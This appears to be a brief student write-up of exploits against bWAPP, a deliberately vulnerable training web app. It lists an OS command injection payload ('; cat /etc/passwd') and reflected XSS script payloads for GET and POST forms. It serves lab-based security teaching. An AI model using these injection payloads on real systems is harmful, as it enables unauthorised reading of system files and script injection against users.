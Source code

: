 # bWAPP - Exploits
<a href="https://github.com/NicolaiKuertoes/swa-writeups/tree/master/swa_prakt6#swa---praktikum-6">&larr; zurück</a>
### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```
need a callback?!
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```

### (4) Cross-Site Scripting - Reflected (POST) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```
### To be continued...
